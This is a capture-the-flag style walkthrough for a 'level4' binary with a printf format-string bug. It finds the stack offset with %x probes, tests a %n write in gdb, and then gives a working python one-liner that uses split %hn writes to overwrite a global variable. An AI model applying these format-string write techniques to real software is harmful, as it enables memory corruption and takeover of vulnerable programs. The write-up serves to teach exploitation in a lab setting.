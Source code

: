 # Write large data

Printf Vulnerability

## Context

Same as level 3, we have a printf vulnerability.

```c
void p(char *param_1)
{
  printf(param_1);
  return;
}
```

And we try to modifie again the global variable `m`, store int .bss section.

```bash
objdump -D level4 | grep -A 2 '<m>'                                                                      (main✱) 
08049810 <m>:
 8049810:	00 00                	add    %al,(%eax)
```

## Offset of the buffer

```bash
$> ./level4                                                                                                 (main✱) 
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAAf7f76f84.ffa7b7d0.f7e26000.ffa7b864.f7f9ab80.ffa7b798.804848d.ffa7b590.200.f7e26620.0.41414141.252e7825.78252e78

$> ./level4                                                                                                 (main✱) 
AAAA%12$x
AAAA41414141
```

We can conclued, the buffer is stored a the 12th addresses on our stack `%12$x`.

## Verification

Lets try write data inside to be sure it work : 

```c
gef➤  r < <(python3 -c 'import sys; sys.stdout.buffer.write(b"\x10\x98\x04\x08" + b"%12$n")')

    0x804848d <n+54>           mov    eax, ds:0x8049810
 →  0x8048492 <n+59>           cmp    eax, 0x1025544

$eax   : 0x4       
```

As we can see, i print $eax, the register where is store the value of <m>, and i well modifie it (0x4 instead of 0x0).

## Write larger data

In asm we see that the program compare $eax with 0x1025544 wich equal 16930116 in decimal.

It will take a day if we decide print the padding with this value, we can eazely split the value.

### Theory

We have this value 0x01025544 which is store in 4 byte.

There is a technique to print data in 2 byte with printf(): `%hn` (h for half).

So let's focus first 0x0000(2 bytes) store at the address 08049810 then last 0x0000 08049810 + 2, fill them with respectively 0x5544 and 0x0102 (little endian). 


### Exploit

To sum up : 

```py
0x0102 = 258(in decimal) -> 08049810 + 2 + 08049812
0x5544 = 21828(in decimal) -> 08049810
```

To adjust the padding, we can follow this rule : 

`padding = [The value we want] - [The bytes alredy wrote] = [The value to set].`

High order first cause the value is lower:

High order 258 - 8 = 250 (both addresses are 4 bytes)

Low order 21828 - 258 = 21570

So final exploit is : 

```py
python2.7 -c 'import sys; sys.stdout.write(b"\x10\x98\x04\x08" + b"\x12\x98\x04\x08" + b"%250x" + b"%13$hn" + b"%21570x" + b"%12$hn")' | ./level4
```